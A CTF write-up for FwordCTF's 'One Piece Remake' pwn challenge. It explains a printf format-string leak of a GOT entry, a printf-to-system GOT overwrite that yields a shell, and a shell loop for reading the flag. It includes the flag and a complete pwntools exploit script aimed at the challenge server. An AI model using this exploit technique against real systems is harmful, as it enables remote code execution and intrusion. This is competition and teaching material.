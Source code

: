 # One Piece Remake 

The binary has no protections except Partial RELRO.

The menu has 3 options besides exiting, one of which is secret.

We can read into a shellcode pointer, but only 5 bytes get read. We can execute said shellcode. This is all pretty much useless since 5 bytes of shellcode is not enough to do literally anything useful.

There's a secret option - gomugomunomi. It reads 100 bytes of input(no BOF) and then printfs it, allowing us to execute the classic format string exploit.

I tried to do the simple %p leak, but found no useful addresses on the stack. Instead, I used %s to read my buffer(offset 7, found through pwntools automation) as an address of a string in order to read got entries.

By doing gotaddress + %7$s we can leak got addresses to get a libc leak. We'll use libc-database find yet again to get the remote libc, libc6_2.30-0ubuntu2.2_i386

Then, we'll execute a got overwrite attack by overwriting printf@got with system. Next gomugomunomi, the input will be system'd, so we enter /bin/sh to get dropped into a shell.

But it's not over! On the remote, there is no cat. The solution to read flag.txt is simple - `while read line; do echo $line; done < flag.txt`

This reveals the flag.

1. gotaddress+ %7$s to leak libc
2. Format string overwrite to map printf to system
3. In gomugomunomi, send /bin/sh
4. Use while read line; do echo $line; done to read the flag file as cat is nonexistent

#### Flag: FwordCTF{i_4m_G0inG_t0_B3coM3_th3_p1r4Te_K1NG}
```py
from pwn import *
e = ELF("./remake")
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.30-0ubuntu2.2_i386/libc.so.6")
def getproc():
    return e.process() if args.LOCAL else remote('onepiece.fword.wtf', 1236)
def dofmt(data):
    p.sendline(b"gomugomunomi")
    p.recvuntil(b">>")
    p.sendline(data)
    output = p.recvline()
    p.recvuntil(b">>")
    return output
def write_fmt(data):
    proc = getproc()
    proc.recvuntil(b">>")
    proc.sendline("gomugomunomi")
    proc.recvuntil(b">>")
    proc.send(data)
    output = proc.recvline()
    proc.close()
    return output
auto = FmtStr(write_fmt)
p = getproc()
p.recvuntil(b">>")
string = b"/bin/sh\x00"
payload = p32(e.got['puts']) + b'%7$s'
output = dofmt(payload)[4:8]
libcleak = u32(output)
log.info(f"Libc leak: {hex(libcleak)}")
libcbase = libcleak - libc.symbols['puts']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
# Overwrite printf@got with system@GLIBC
payload = fmtstr.fmtstr_payload(auto.offset,{e.got['printf']: libc.symbols['system']})
p.sendline(b"gomugomunomi")
p.recvuntil(b">>")
p.sendline(payload)
p.clean()
p.sendline(b"gomugomunomi")
p.recvline()
p.sendline(b"/bin/sh")
p.interactive()
```
